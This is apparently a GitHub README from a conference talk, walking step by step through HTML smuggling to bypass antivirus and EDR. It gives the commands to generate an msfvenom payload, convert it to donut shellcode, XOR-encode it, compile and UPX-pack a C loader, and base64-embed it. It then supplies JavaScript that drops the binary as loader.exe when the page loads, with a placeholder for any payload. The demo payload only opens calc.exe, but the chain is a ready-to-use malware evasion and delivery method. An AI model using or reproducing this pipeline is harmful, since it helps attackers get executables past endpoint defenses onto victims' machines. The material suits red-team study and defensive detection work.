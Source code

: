 
# html-smuggling-edr-bypass

## 🧠 Description

This project demonstrates how to use **HTML Smuggling** as an evasion technique to bypass **Antivirus (AV)** and **Endpoint Detection and Response (EDR)** solutions. Originally presented at *Leiria Tech Talks*, this walkthrough covers payload generation, shellcode transformation, in-memory execution, and delivery via a web browser using HTML Smuggling techniques.

## 📑 Table of Contents

- [Description](#-description)
- [Table of Contents](#-table-of-contents)
- [Prerequisites](#-prerequisites)
- [Step-by-Step Guide](#-step-by-step-guide)
- [References](#-references)
- [Credits](#-credits)

## 🔧 Prerequisites

- Linux-based environment
- `msfvenom`
- [`donut`](https://github.com/TheWover/donut)
- `python3`
- `mingw-w64`
- `UPX`
- Modern web browser (Chrome, Edge)

## 🚀 Step-by-Step Guide

### 1. Generate EXE Payload

```bash
msfvenom -p windows/exec CMD=calc.exe -f exe -o calc_payload.exe
```

### 2. Convert EXE to Shellcode using Donut

```bash
donut -i calc_payload.exe -f 1 -o donut_payload.bin -z 1 -e 3 -b 3
```

### 3. XOR Encode the Shellcode

Run the Python script:

```bash
python3 xor_donut.py
```

### 4. Convert Shellcode to C Header

```bash
xxd -i shellcode_xored.bin > shellcode.h
```

### 5. Build the Loader in C

Compile with `mingw` for 32-bit systems:

```bash
i686-w64-mingw32-gcc loader.c -o loader.exe -m32 -Os -s -fno-ident -Wno-write-strings
```

### 6. Compress the Loader with UPX

```bash
upx --ultra-brute loader.exe
```

### 7. Prepare for HTML Smuggling

Encode the binary to Base64:

```bash
base64 -w 0 loader.exe > loader
```

### 8. Build the HTML Smuggling Page

Use the provided `index.html` as a template. This file includes a complete HTML smuggling example with a styled interface and embedded Base64 execution logic.

Replace the placeholder content in the script with your Base64-encoded payload (from step 7).

```html
<script>
function base64ToArrayBuffer(base64) {
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array(len);
  for (var i = 0; i < len; i++) {
    bytes[i] = binary_string.charCodeAt(i);
  }
  return bytes.buffer;
}

var file = "YOUR_BASE64_HERE";  // Replace this with your base64-encoded loader
let blob = new Blob([base64ToArrayBuffer(file)]);
let a = document.createElement("a");
a.href = URL.createObjectURL(blob);
a.download = "loader.exe";
a.click();
</script>
```

## 📚 References

- [Microsoft Security Blog – HTML Smuggling](https://www.microsoft.com/en-us/security/blog/2021/11/11/html-smuggling-surges-highly-evasive-loader-technique-increasingly-used-in-banking-malware-targeted-attacks/)
- [Donut Shellcode Generator](https://github.com/TheWover/donut)

## 👨‍💻 Credits

Presented by: **Milton Silva**  
Cybersecurity Team Leader at Visionware  
[LinkedIn](https://www.linkedin.com/in/milton-araujo)
